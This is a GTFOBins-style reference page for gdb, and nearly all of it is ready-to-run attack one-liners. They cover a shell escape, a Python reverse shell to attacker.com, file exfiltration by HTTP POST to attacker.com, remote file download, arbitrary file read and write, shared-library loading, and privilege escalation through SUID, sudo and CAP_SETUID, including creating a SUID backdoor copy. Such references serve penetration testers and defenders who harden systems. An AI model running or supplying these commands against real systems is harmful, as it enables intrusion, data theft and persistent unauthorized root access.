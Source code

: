 # GTFOBin: gdb

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
gdb -nx -ex '!sh' -ex quit
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

This requires that GDB is compiled with Python support. Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
gdb -nx -ex 'python import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")' -ex quit
```

## File upload

It can exfiltrate files on the network.

This requires that GDB is compiled with Python support. Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export URL=http://attacker.com/
export LFILE=file_to_send
gdb -nx -ex 'python import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' -ex quit
```

This requires that GDB is compiled with Python support. Serve files in the local folder running an HTTP server.

```
export LPORT=8888
gdb -nx -ex 'python import sys; from os import environ as e
if sys.version_info.major == 3: import http.server as s, socketserver as ss
else: import SimpleHTTPServer as s, SocketServer as ss
ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' -ex quit
```

## File download

It can download remote files.

This requires that GDB is compiled with Python support. Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
gdb -nx -ex 'python import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])' -ex quit
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

This requires that GDB is compiled with Python support.

```
LFILE=file_to_write
gdb -nx -ex "dump value $LFILE \"DATA\"" -ex quit
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

This requires that GDB is compiled with Python support.

```
gdb -nx -ex 'python print(open("file_to_read").read())' -ex quit
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

This requires that GDB is compiled with Python support.

```
gdb -nx -ex 'python from ctypes import cdll; cdll.LoadLibrary("lib.so")' -ex quit
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that GDB is compiled with Python support.

```
sudo install -m =xs $(which gdb) .

./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo gdb -nx -ex '!sh' -ex quit
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

This requires that GDB is compiled with Python support.

```
cp $(which gdb) .
sudo setcap cap_setuid+ep gdb

./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```